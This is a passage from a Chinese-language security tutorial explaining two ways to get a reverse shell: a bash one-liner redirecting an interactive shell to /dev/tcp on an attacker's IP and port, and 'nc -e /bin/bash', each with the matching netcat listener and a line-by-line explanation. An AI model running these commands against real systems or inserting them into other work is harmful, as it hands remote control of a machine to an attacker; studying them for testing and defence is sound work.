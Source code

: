 ### 4.反弹shell

#### 方法1：shell命令反弹

利用shell 命令来进行shell反弹.

在进攻机上执行监听命令：

```bash
nc -lvp (port)   #port 为监听的端口
```

在被攻击机器上执行命令:

```bash
bash -i >& /dev/tcp/(ip)/(port) 0>&1
#ip为攻击机ip地址 port 为攻击机上开放的端口
```

（有些情况下bash可以用sh来代替。）

按自己的理解解释下这命令：

`bash -i ` 命令行的交互模式.

`/dev/tcp/(ip)/(port)`指远程，也就是攻击机.

所以`bash -i >& /dev/tcp/(ip)/(port)`就是将命令行的交互的输出重定向( stdout和stderr)到攻击机.

 `0>&1`将命令行的交互的输入重定向( stdin)到攻击机.

![image-20200627115610170]( image-20200627115610170.png)

效果展示:

![image-20200627120409808]( image-20200627120409808.png)



#### 方法2:利用nc反弹

使用nc反弹shell，被攻击机反弹shell命令如下：

```shell
nc -e /bin/bash  ip   port    # ip   port指攻击机的ip与port
```

攻击接听命令：

```shell
nc -nlvp (port)   # port指攻击机的port
```

nc监听端口反弹shell时都会有一个警告：Warning: forward host lookup failed for bogon: Unknown host,根据nc帮助文档的提示加上-n参数就可以不产生这个警告了，-n参数代表在建立连接之前不对主机进行dns解析。



![image-20200627171230472]( image-20200627171230472.png)

这里的-e后面跟的参数代表的是在创建连接后执行的程序，这里代表在连接到远程后可以在远程执行一个本地shell(/bin/bash)，也就是反弹一个shell给远程，可以看到远程已经成功反弹到了shell，并且可以执行命令。但弹了命令没有弹用户、位置及权限信息。
